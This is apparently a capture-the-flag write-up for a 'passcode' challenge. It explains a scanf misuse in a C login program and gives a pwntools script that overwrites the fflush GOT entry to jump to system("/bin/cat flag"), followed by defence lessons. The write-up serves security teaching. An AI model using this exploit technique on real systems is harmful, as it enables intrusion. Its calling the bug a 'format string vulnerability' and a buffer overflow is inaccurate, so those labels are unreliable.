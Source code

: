 
---

# **Challenge 5: Passcode Exploit**

### **Challenge Overview**
In this challenge, we are provided with a vulnerable login system written in C that contains a **format string vulnerability** in the `scanf()` function, which can be exploited to overwrite a function pointer and redirect execution to reveal the flag.

---

## **Code Analysis**

### **Vulnerable Code Snippet**
```
void login()
{
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);  // Vulnerability here
    fflush(stdin);

    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if (passcode1 == 338150 && passcode2 == 13371337)
    {
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else
    {
        printf("Login Failed!\n");
        exit(0);
    }
}
```

### **Identified Vulnerabilities**
1. **Format String Vulnerability:**
   - The `scanf("%d", passcode1);` function is used incorrectly.
   - The `scanf()` function expects an **address**, but instead, `passcode1` (uninitialized variable) is passed directly, leading to a segmentation fault.

2. **Buffer Overflow Potential:**
   - The `welcome()` function has a buffer overflow possibility:
     ```c
     char name[100];
     printf("enter your name : ");
     scanf("%100s", name);
     ```
   - We can control the last 4 bytes of this buffer and overwrite adjacent memory.


3. **Overwriting Function Pointers:**
   - From `objdump -R` analysis, the `fflush` function is dynamically linked at the address `0x0804a004`, and this can be overwritten.
    ![alt text](image-5.png)
---

## **Exploit Strategy**

### **Step 1: Finding the Buffer Overflow Offset**
Using the GDB debugger, we analyze memory and find that the last 4 bytes of the `name` buffer are stored at `$ebp-16`. This confirms that after 96 bytes, we can overwrite the adjacent memory location.

#### **GDB Analysis Commands**
1. Run the binary and input a long string of 100 characters.
   ```bash
   gdb ./passcode
   ```
2. Set a breakpoint at `login` and inspect memory:
   ```gdb
   b login
   run
   x/20wx $ebp-16  # Examine memory near passcode1 location
   ```

Expected output:
    ![alt text](image-1.png)

This confirms that we have control over the last 4 bytes.

---

### **Step 2: Overwriting the `fflush` Function Pointer**

Using `objdump -R` to check relocatable symbols:
```bash
objdump -R ./passcode
```

Output:
![alt text](image-6.png)

We can overwrite this address and redirect execution.

---

### **Step 3: Finding the Target Address (System Call Execution)**

Disassembling the binary using `objdump -D`:
```bash
objdump -D ./passcode | grep "system"
```
![alt text](image-7.png)
We find that the address `0x080485d7` calls `system("/bin/cat flag")`. Our goal is to jump to this address.

---

### **Step 4: Constructing the Exploit**

1. **Buffer Overflow Payload Construction:**
   - Send `96` bytes to fill the buffer.
   - Overwrite the next 4 bytes with the address of `fflush` (`0x0804a004`).
   - Use `scanf` to overwrite the function pointer with `0x080485d7` (system call).

---

## **Python Exploit Script**
We can automate the exploit using `pwntools`:

```python
from pwn import *

# Load the binary
elf = ELF('/home/passcode/passcode')

# Start the process
p = process('/home/passcode/passcode')

# Step 1: Overflow name buffer and overwrite fflush address
payload = b"A" * 96  # Fill buffer
payload += p32(0x0804a004)  # Overwrite the fflush GOT entry

# Send the overflow payload
p.sendline(payload)

# Step 2: Send system() address to scanf()
p.sendline(str(0x080485d7))

# Step 3: Receive the flag output
print(p.recvall().decode())
```

---

## **Explanation of Exploit Steps**

1. **Overflow the buffer:**  
   - Input `96` characters of padding.
   - Overwrite the `fflush` function pointer at `0x0804a004`.

2. **Redirect execution:**  
   - Provide the system function address as input to the vulnerable `scanf()`.
   - The program will jump to `system("/bin/cat flag")` and print the flag.

---

### **Step 5: Running the Exploit**
1. Save the script as `exploit.py`.
2. Run the script:
   ```bash
   python3 exploit.py
   ```

Expected output:
```
Toddler's Secure Login System 1.0 beta.
enter your name:
enter passcode1:
enter passcode2:
checking...
Login OK!
<FLAG>
```

---

## **Key Takeaways**

1. **Exploitation Techniques Used:**
   - Buffer Overflow to overwrite function pointers.
   - Understanding of function relocation using `objdump -R`.
   - Dynamic redirection of execution flow using memory corruption.

2. **Lessons Learned:**
   - Proper use of `scanf()` requires passing the address of variables.
   - Security implications of leaving function pointers writable.
   - Defense techniques include:
     - Enabling stack protection (`-fstack-protector`).
     - Read-only GOT protection (`RELRO` in ELF).
     - Using bounds-checked input functions like `fgets()`.

---

## **Alternative Solutions**
- If Address Space Layout Randomization (ASLR) is enabled, a brute-force approach might be needed.
- Static analysis with tools like `Ghidra` to inspect function addresses directly.

---